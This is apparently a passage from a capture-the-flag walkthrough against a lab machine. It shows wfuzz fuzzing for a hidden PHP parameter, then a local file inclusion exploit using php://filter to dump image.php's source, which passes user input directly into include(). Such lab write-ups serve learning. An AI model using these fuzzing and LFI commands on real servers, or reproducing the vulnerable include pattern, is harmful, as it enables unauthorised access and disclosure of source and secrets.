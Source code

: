     Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
    </html>

### Use 'secrettier360' parameter on some other php page for more fun

    $ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hh 197   http://192.168.172.128/image.php?secrettier360=FUZZ
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://192.168.172.128/image.php?secrettier360=FUZZ
    Total requests: 951

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                        
    =====================================================================

    000000257:   200        13 L     43 W       328 Ch      "dev"                                          

    Total time: 0.581366
    Processed Requests: 951
    Filtered Requests: 950
    Requests/sec.: 1635.802


    $ curl http://192.168.172.128/image.php?secrettier360=dev
    <html>
    <title>HacknPentest</title>
    <body>
     <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
    </body>
    finaly you got the right parameter<br><br><br><br>hello,

    now you are at level 0 stage.

    In real life pentesting we should use our tools to dig on a web very hard.

    Happy hacking. 
    </html>

==> The content of http://192.168.172.128/dev in that ! ==> File included

### Exploit LFI with php://filter


#### Read image.php file


    $ curl http://192.168.172.128/image.php?secrettier360=php://filter/convert.base64-encode/resource=image.php
    <html>
    <title>HacknPentest</title>
    <body>
     <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
    </body>
    finaly you got the right parameter<br><br><br><br>PGh0bWw+Cjx0aXRsZT5IYWNrblBlbnRlc3Q8L3RpdGxlPgo8Ym9keT4KIDxpbWcgc3JjPSdoYWNrbnBlbnRlc3QucG5nJyBhbHQ9J2hucCBzZWN1cml0eScgd2lkdGg9IjEzMDAiIGhlaWdodD0iNTk1IiAvPjwvcD48L3A+PC9wPgo8L2JvZHk+Cjw/cGhwCiRzZWNyZXQgPSAkX0dFVFsnc2VjcmV0dGllcjM2MCddOwppZihpc3NldCgkc2VjcmV0KSkKCnsKIGVjaG8iZmluYWx5IHlvdSBnb3QgdGhlIHJpZ2h0IHBhcmFtZXRlciI7CiBlY2hvICI8YnI+PGJyPjxicj48YnI+IjsKIGluY2x1ZGUoIiRzZWNyZXQiKTsKCn0KCj8+CjwvaHRtbD4K</html>
